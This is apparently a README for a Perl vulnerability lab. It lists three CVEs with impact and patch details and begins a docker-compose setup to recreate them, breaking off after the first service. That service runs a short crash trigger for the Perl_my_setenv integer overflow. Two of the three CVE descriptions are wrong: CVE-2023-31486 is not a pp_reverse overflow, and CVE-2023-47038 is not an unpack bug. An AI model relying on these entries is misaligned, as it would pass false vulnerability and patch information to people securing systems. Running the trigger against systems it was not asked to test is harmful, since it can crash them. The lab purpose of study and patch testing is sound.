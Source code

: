     - Understand how vulnerabilities work.
    - Test if your systems are patched.
    - Learn secure coding practices.

<br>

## Known CVEs
***

<br>

### CVE-2018-18311

    Vulnerability     : Integer overflow in Perl_my_setenv() leading to heap corruption.
    Affected Versions : Perl 5.26.2 and earlier.
    Impact            : Possible denial-of-service (DoS) or arbitrary code execution.
    Patch             : Fixed in Perl 5.26.3+.

<br>

### CVE-2023-31486

    Vulnerability     : Heap-based buffer overflow in Perl_pp_reverse function.
    Affected Versions : Perl 5.32.1 and earlier.
    Impact            : Could lead to crashes or potential RCE (Remote Code Execution).
    Patch             : Fixed in Perl 5.32.2+.

<br>

### CVE-2023-47038

    Vulnerability     : Buffer overflow in Perl’s unpack function.
    Affected Versions : Perl 5.34.0 and earlier.
    Impact            : Could allow arbitrary code execution.
    Patch             : Fixed in Perl 5.34.1+.

<br>

## Recreate CVEs
***

<br>

Let's create configuration file for `docker-compose`:

<br>

```bash
$ cat docker-compose.yml
version: '3.8'

services:
  cve-2018-18311:
    container_name: cve-2018-18311
    image: perl:5.26.2
    command:
      - perl
      - -e
      - |
        $$ENV{PERL_POC} = "A" x (2**31 - 1);
        print "If you see this, Perl didn't crash!!\n";
    deploy:
      resources:
        limits:
          memory: 2G

  cve-2023-31486:
```
